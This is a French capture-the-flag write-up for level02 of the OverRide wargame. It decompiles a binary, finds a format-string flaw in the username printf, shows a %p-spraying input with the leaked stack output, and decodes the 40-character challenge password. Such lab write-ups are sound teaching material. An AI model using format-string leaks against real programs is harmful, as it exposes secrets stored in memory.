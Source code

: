 #### Etape 1 : Décompilation 

Le binaire effectue un open puis read du mot fichier contenant le mot de passe.
Il demande ensuite un username puis un password.
Si le mot de passe est bon il éxécute un /bin/sh.

#### Etape 2 : Recherche de faille

Le mot de passe semble faire 40 caractères selon la décompilation du binaire. (Vu dans les arguments du fread).
La seule faille visible semble être le printf a la fin du programme qui prend en argument la chaine de caractère qui correspond au username.
Autrement dit le programme est sensible a une format attack.

#### Etape 3 : Idéee

Print le contenu des adresses pour obtenir le mot de passe.
En envoyant un %p on vois le contenu d'une adresse mémoire en hexadécimal.
Donc en essayant de print plusieurs adresse il est fort possible de trouver une suite ressemblant au mot de passe sous forme d'une chaine d'héxadécimaux. 

#### Etape 4 : Execution 

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
--[ Password: *****************************************
0x7fffffffe3e0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5d8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

#### Etape 5 : Conversion

De la 22e adresse a la 26e il y a 80 caractères ... donc une fois convertir en décimal 40.
On les converti avec un script puis on obtient : 
Mot de passe : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H